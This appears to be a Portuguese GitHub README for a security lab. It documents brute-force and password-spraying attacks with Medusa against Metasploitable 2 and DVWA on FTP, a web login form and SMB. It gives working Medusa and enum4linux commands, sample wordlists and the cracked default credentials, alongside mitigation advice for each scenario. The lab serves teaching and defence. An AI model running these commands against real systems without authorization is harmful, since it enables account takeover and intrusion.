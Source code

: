 # Desafio: Análise de Força Bruta com Kali, Medusa e Ambientes Vulneráveis

Este repositório documenta a execução de simulações de ataques de força bruta em um ambiente de laboratório controlado. O objetivo é compreender as mecânicas de ataque a diferentes serviços (FTP, Web, SMB) e, principalmente, exercitar e documentar as medidas de mitigação e defesa.

**Ferramentas Utilizadas:**
* **Kali Linux:** Distribuição para testes de penetração.
* **Medusa:** Ferramenta de linha de comando para força bruta paralela.
* **Metasploitable 2:** VM intencionalmente vulnerável (nosso alvo).
* **DVWA (Damn Vulnerable Web Application):** Aplicação web vulnerável, usada aqui no Metasploitable 2.

> **Disclaimer:** Todas as atividades foram realizadas em uma rede privada e isolada (VirtualBox Host-Only). As técnicas aqui descritas destinam-se **exclusivamente a fins educacionais e de auditoria** em ambientes autorizados.

---

## 1. Configuração do Ambiente

O laboratório foi configurado no VirtualBox com os seguintes componentes:

1.  **VM Atacante:** Kali Linux (ex: `192.168.56.101`)
2.  **VM Alvo:** Metasploitable 2 (ex: `192.168.56.102`)

Ambas as VMs foram configuradas para usar a mesma rede "Host-Only" (`vboxnet0`), garantindo que o tráfego ficasse contido e isolado da rede principal.

Os endereços IP foram identificados usando `ip a` no Kali e `ifconfig` no Metasploitable.

## 2. Cenários de Simulação e Mitigação

Foram utilizados *wordlists* simples para os testes, conforme detalhado na Seção 3.

### Cenário A: Força Bruta em FTP (vsftpd no Metasploitable 2)

O serviço FTP (File Transfer Protocol) é um vetor comum de ataque, pois muitas vezes é configurado com credenciais padrão ou fracas.

**A. Reconhecimento:**
Primeiro, validamos que a porta 21 (FTP) estava aberta no alvo:
```bash
nmap -sV 192.168.56.102
Resultado: Porta 21/tcp aberta, serviço vsftpd 2.3.4.

B. Execução (Medusa): Utilizamos o Medusa para testar uma lista de senhas (pass.txt) contra um usuário conhecido (msfadmin):

Bash

medusa -h 192.168.56.102 -u msfadmin -P wordlists/pass.txt -M ftp
-h: Host/Alvo

-u: Usuário único

-P: Caminho para a wordlist de senhas

-M: Módulo a ser usado (neste caso, ftp)

C. Resultado:

[SUCCESS] - HOST: 192.168.56.102 (ftp) USER: msfadmin PASS: msfadmin
D. Recomendações de Mitigação:

Senhas Fortes: Nunca use credenciais padrão. Implementar uma política de senhas robusta.

Account Lockout: Implementar ferramentas como fail2ban para banir IPs após múltiplas falhas.

Protocolos Seguros: Desabilitar o FTP. Substituí-lo por SFTP (SSH File Transfer Protocol) ou FTPS.

Princípio do Menor Privilégio: Garantir que o usuário de login tenha permissões restritas (ex: chroot jail).

Cenário B: Força Bruta em Formulário Web (DVWA)
Muitos ataques de força bruta visam formulários de login em aplicações web.

A. Reconhecimento: Acessamos o DVWA (http://192.168.56.102/dvwa/login.php) e definimos a segurança como "Low". Inspecionando o código-fonte, identificamos os parâmetros:

URL da Ação (POST): login.php

Campo de Usuário: username

Campo de Senha: password

Mensagem de Falha: "Login failed"

B. Execução (Medusa): O Medusa possui um módulo web-form que pode ser customizado:

Bash

medusa -h 192.168.56.102 -U wordlists/users.txt -P wordlists/pass.txt -M web-form \
-m FORM:"/dvwa/login.php" \
-m PARAMS:"username=^USER^&password=^PASS^&Login=Login" \
-m DENY-SIGNAL:"Login failed"
-U e -P: Listas de usuários e senhas.

-m FORM: A página que recebe o POST.

-m PARAMS: O payload do formulário. ^USER^ e ^PASS^ são substituídos pelo Medusa.

-m DENY-SIGNAL: A string que indica uma falha de login.

C. Resultado:

[SUCCESS] - HOST: 192.168.56.102 (web-form) USER: admin PASS: password
D. Recomendações de Mitigação:

Bloqueio de Contas: Bloquear a conta (ou IP) após um número baixo de tentativas falhas (ex: 5).

CAPTCHA: Utilizar CAPTCHA ou reCAPTCHA para impedir a automação.

Autenticação de Múltiplos Fatores (MFA): A medida mais eficaz.

Monitoramento e Alertas: Gerar alertas para picos de falhas de login.

Cenário C: Password Spraying em SMB
Diferente da força bruta (1 usuário, N senhas), o Password Spraying (N usuários, 1 senha) é uma técnica furtiva para evitar o bloqueio de contas.

A. Reconhecimento (Enumeração de Usuários): Usamos enum4linux para extrair uma lista de usuários válidos do sistema.

Bash

enum4linux -U 192.168.56.102
Resultado: Obtivemos uma lista de usuários (msfadmin, user, service, etc.) que salvamos em wordlists/smb-users.txt.

B. Execução (Medusa): Simulamos um spray com uma senha comum (ex: "msfadmin") contra a lista de usuários descoberta:

Bash

medusa -h 192.168.56.102 -U wordlists/smb-users.txt -p 'msfadmin' -M smbnt
-U: Lista de usuários que descobrimos.

-p: Senha única que estamos "borrifando".

-M: Módulo smbnt (para SMB no Windows/Samba).

C. Resultado:

[SUCCESS] - HOST: 192.168.56.102 (smbnt) USER: msfadmin PASS: msfadmin
D. Recomendações de Mitigação:

Políticas de Senha Fortes: Proibir senhas óbvias, comuns ou sazonais.

Monitoramento de Padrões: Detectar falhas de login em múltiplas contas originadas do mesmo IP.

Endurecimento (Hardening): Restringir o acesso ao SMB (Porta 445) via firewall e desabilitar o SMBv1.

Não vazar nomes de usuários: Configurar serviços para não enumerar ou confirmar nomes de usuários válidos.

3. Arquivos de Exemplo (Wordlists)
Como parte do desafio, aqui estão as wordlists simples utilizadas.

wordlists/users.txt
root
admin
msfadmin
user
test
guest
wordlists/pass.txt
admin
root
password
123456
msfadmin
1234
qwerty
wordlists/smb-users.txt
(Lista obtida via enumeração na Fase C)

msfadmin
user
postgres
service
backup
4. Conclusões e Aprendizados
Ameaça Real: A facilidade e velocidade do Medusa demonstram o risco crítico que senhas fracas representam.

Defesa em Camadas: Nenhuma medida de mitigação é suficiente sozinha. A segurança eficaz combina senhas fortes, monitoramento (fail2ban), protocolos seguros (SFTP) e ferramentas anti-automação (CAPTCHA/MFA).

Valor do Laboratório: Este ambiente controlado foi essencial para entender a perspectiva do atacante de forma segura e ética, o que é fundamental para construir defesas mais robustas.
